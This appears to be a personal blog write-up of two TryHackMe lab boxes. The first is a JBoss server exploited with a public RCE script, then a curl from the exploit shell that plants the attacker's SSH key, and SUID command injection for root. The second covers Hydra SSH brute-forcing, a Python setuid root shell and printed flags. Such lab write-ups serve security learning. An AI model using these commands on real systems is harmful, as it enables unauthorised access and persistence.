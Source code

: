 ```yaml
---
layout: post
title:  "THM: Jacob & KOTH May 2020"
date:   2021-01-04 22:00:00 +1100
category: hacking
---
```


## Jacob the Boss
*Find a way in and learn a little more.*  
*First of all, add the jacobtheboss.box address to your hosts file*

This is [Jacob the Boss](https://tryhackme.com/room/jacobtheboss) from THM. 

## Ports
Quite a few here:

>PORT      STATE SERVICE  
22/tcp    open  ssh  
80/tcp    open  http  
111/tcp   open  rpcbind  
1090/tcp  open  ff-fms  
1098/tcp  open  rmiactivation  
1099/tcp  open  rmiregistry  
3306/tcp  open  mysql  
3873/tcp  open  fagordnc  
4444/tcp  open  krb524  
4445/tcp  open  upnotifyp  
4446/tcp  open  n1-fwp  
4457/tcp  open  prRegister  
4712/tcp  open  unknown  
4713/tcp  open  pulseaudio  
8009/tcp  open  ajp13  
8080/tcp  open  http-proxy  
8083/tcp  open  us-srv  
36348/tcp open  unknown  
40701/tcp open  unknown  
44894/tcp open  unknown  

Yikes! I didn't run a detail scan.

## 8080
At http://jacobtheboss.box:8080/ we find **JBoss**, and if we click through to http://jacobtheboss.box:8080/web-console/ we find, amongst other things:

>JBoss™ Application Server  
Version: 5.0.0.GA (build: SVNTag=JBoss_5_0_0_GA date=200812041721)  
Version Name: Morpheus  
Built on: December 4 2008 

So this is old as anything; who wants to bet it's our way in?

## Searchsploit
{% highlight shell %}
root@kali:/opt/tryhackme/jacob# searchsploit jboss
JBoss AS 3/4/5/6 - Remote Command Execution | multiple/webapps/36575.py
{% endhighlight %}

Seems a likely candidate. I mirror it and try per the instructions:

``
root@kali:/opt/tryhackme/jacob# python 36575.py http://jacobtheboss.box:8080
``

But it doesn't seem happy; I hardcode the port in the script and make a minor change to the argument parsing and this sorts it out, and I get a shell (of sorts).

For some reason I couldn't get the shell I had to send me a 'normal' reverse shell, so instead I created an authorized_keys file and copied over my SSH public key. From there I could SSH in as Jacob.

{% highlight shell %}
[Type commands or "exit" to finish]
Shell> mkdir /home/jacob/.ssh       
Shell> curl http://10.9.10.123:8000/id_rsa.pub -o /home/jacob/.ssh/authorized_keys
{% endhighlight %}

And separately:

{% highlight shell %}
root@kali:/opt/tryhackme/jacob# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.32.152 - - [04/Jan/2021 05:21:34] "GET /id_rsa.pub HTTP/1.1" 200 -
{% endhighlight %}

then 

{% highlight shell %}
root@kali:/opt/tryhackme/jacob# ssh jacob@10.10.32.152
[jacob@jacobtheboss ~]$
{% endhighlight %}

## Privesc
Privesc was via an [intentionally vulnerable](https://security.stackexchange.com/questions/196577/privilege-escalation-c-functions-setuid0-with-system-not-working-in-linux) SUID binary:

{% highlight shell %}
[jacob@jacobtheboss shm]$ pingsys '127.0.0.1; /bin/bash'
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.016 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms
^C
--- 127.0.0.1 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 999ms
rtt min/avg/max/mdev = 0.016/0.022/0.029/0.008 ms
[root@jacobtheboss shm]# cd /root
[root@jacobtheboss root]#
{% endhighlight %}

While I was mucking around with this I also logged into the MySQL server on the host and grabbed Jacob's hash from the DotClear database (it was running on Port 80); couldn't break it though. Since I couldn't break it I decided to change it:

{% highlight shell %}
MariaDB [dotclear]> update dc_user set user_pwd = '$2y$12$mjwHvY4jPzz2hu3RAmxn..n7Yp3.ey2TiYjesOxPgcX0V1f2INw1S' where user_id = 'jacob';
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0
{% endhighlight %}

This was just 'password' from https://bcrypt-generator.com/ but it didn't help at all. Lol.

## KOTH
I also had a go at [this](https://tryhackme.com/room/kothhackers). It doesn't award any points and there are apparently 9 flags. I rooted the box and found 7 of them.

My notes look like below. Essentially we got a hint about weak passwords from the FTP server with anon access, I tried Hydra and got in, then Python had the setuid capability set so that was root. I ran around and found most of the flags. The first flag was on the FTP server.

{% highlight shell %}
root@kali:/opt/tryhackme/koth# hydra -l rcampbell -P /usr/share/wordlists/rockyou.txt ssh://10.10.229.240
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-04 04:35:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.229.240:22/
[STATUS] 166.00 tries/min, 166 tries in 00:01h, 14344239 to do in 1440:12h, 16 active
[STATUS] 114.00 tries/min, 342 tries in 00:03h, 14344063 to do in 2097:06h, 16 active
[STATUS] 109.14 tries/min, 764 tries in 00:07h, 14343641 to do in 2190:21h, 16 active
[22][ssh] host: 10.10.229.240   login: rcampbell   password: maddie

rcampbell@gibson:~$ ls -lash
total 32K
4.0K drwxr-x--- 4 rcampbell rcampbell 4.0K Jan  4 09:42 .
4.0K drwxr-xr-x 6 root      root      4.0K Apr 29  2020 ..
   0 lrwxrwxrwx 1 rcampbell rcampbell    9 Apr 30  2020 .bash_history -> /dev/null
4.0K -rw-r--r-- 1 rcampbell rcampbell  220 Apr 29  2020 .bash_logout
4.0K -rw-r--r-- 1 rcampbell rcampbell 3.7K Apr 29  2020 .bashrc
4.0K drwx------ 2 rcampbell rcampbell 4.0K Jan  4 09:42 .cache
4.0K -r-------- 1 rcampbell rcampbell   38 Apr 30  2020 .flag
4.0K drwx------ 3 rcampbell rcampbell 4.0K Jan  4 09:42 .gnupg
4.0K -rw-r--r-- 1 rcampbell rcampbell  807 Apr 29  2020 .profile
rcampbell@gibson:~$ cat .flag
thm{12361ad240fec43005844016092f1e05} FLAG 2

rcampbell@gibson:/dev/shm$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1002(rcampbell) groups=1002(rcampbell)

# cat .flag
thm{b94f8d2e715973f8bc75fe099c8492c4} // root flag FLAG 3

# cat business.txt
Remember to send the accounts to Rich by 5pm Friday.

Remember to change my password, before the meeting with Mr Belford.
I hope he doesnt fire me. I need to provide for my family
I need to send Ben the flag too, thm{d8deb5f0526ec81f784ce68e641cde40} // gcrawford FLAG 4

# cat .flag // production
thm{879f3238fb0a4bf1c23fd82032d237ff} // FLAG 5

# cat .flag // tryhackme
thm{3ce2fe64055d3b543360c3fc880194f8} // FLAG 6

# pwd
/home/production/webserver
# grep -r -i flag
Binary file server matches
resources/main.css:/* Curious one, arent you? Have a flag. thm{b63670f7192689782a45d8044c63197f}*/ // FLAG 7
{% endhighlight %}
